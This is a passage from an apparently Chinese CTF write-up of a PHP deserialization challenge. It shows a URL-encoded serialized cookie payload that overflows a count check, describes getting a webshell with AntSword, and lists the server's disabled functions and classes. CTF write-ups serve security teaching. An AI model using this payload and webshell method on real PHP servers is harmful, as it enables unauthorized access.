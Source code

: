 - 多维数组 - 包含一个或多个数组的数组

  俗称套娃

感兴趣的师傅可以自己测试一下，这里只需要`$a->count=9223372036854775806`即long最大值时即可绕过(64位即2^64)

### 获取webshell

直接拿shell进去看看

![shell](bluehat2021/image-20210503134715662.png)

这里用蚁剑示例，注意header里需要加Cookie为`data=O%3A4%3A%22User%22%3A1%3A%7Bs%3A5%3A%22count%22%3Bi%3A9223372036854775806%3B%7D;`

查看phpinfo，发现有很多disable_function

```
disable_function：stream_socket_client,fsockopen,putenv,pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,iconv,system,exec,shell_exec,popen,proc_open,passthru,symlink,link,syslog,imap_open,dl,mail,error_log,debug_backtrace,debug_print_backtrace,gc_collect_cycles,array_merge_recursive

disable_classes:
Exception,SplDoublyLinkedList,Error,ErrorException,ArgumentCountError,ArithmeticError,AssertionError,DivisionByZeroError,CompileError,ParseError,TypeError,ValueError,UnhandledMatchError,ClosedGeneratorException,LogicException,BadFunctionCallException,BadMethodCallException,DomainException,InvalidArgumentException,LengthException,OutOfRangeException,PharException,ReflectionException,RuntimeException,OutOfBoundsException,OverflowException,PDOException,RangeException,UnderflowException,UnexpectedValueException,JsonException,SodiumException
```

